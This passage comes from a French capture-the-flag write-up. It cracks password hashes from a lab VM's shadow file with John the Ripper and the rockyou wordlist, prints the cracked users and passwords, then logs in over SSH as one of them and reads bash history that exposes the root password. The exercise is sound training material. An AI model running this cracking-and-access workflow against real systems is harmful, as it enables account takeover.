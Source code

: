 ```console
ossecr:!!:14312:0:99999:7:::
```

Un troisième dictionnaire est appelé à la rescousse : [rockyou.txt](https://wiki.skullsecurity.org/Passwords).

```console
root@blinils:~# unshadow passwdCTF4.txt shadowCTF4.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
seventysixers    (achen)
root1234         (root)
Homesite         (pmoore)
5g 0:00:23:49 DONE (2018-02-08 00:14) 0.003497g/s 10030p/s 34296c/s 34296C/s       ...
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@blinils:~# john passwd.db --show
root:root1234:0:0:root:/root:/bin/bash
achen:seventysixers:501:501:Andrew Chen:/home/achen:/bin/bash
pmoore:Homesite:502:502:Phillip Moore:/home/pmoore:/bin/bash
sorzek:pacman:504:504:Sally Orzek:/home/sorzek:/bin/bash
ghighland:undone1:505:505:Greg Highland:/home/ghighland:/bin/bash

5 password hashes cracked, 2 left
```

### Accès SSH et élévation de privilèges, partie 2

Au tour d'Andrew Chen !

```console
root@blinils:~# ssh achen@192.168.15.131
BSD SSH 4.1
achen@192.168.15.131's password: 
Last login: Mon Mar  9 16:10:36 2009 from 192.168.0.51
[achen@ctf4 ~]$ head -n10 .bash_history
exit
clear
exit
sudo sy
su
root1234
su
exit
cat .bash_history 
su
[achen@ctf4 ~]$ 
```
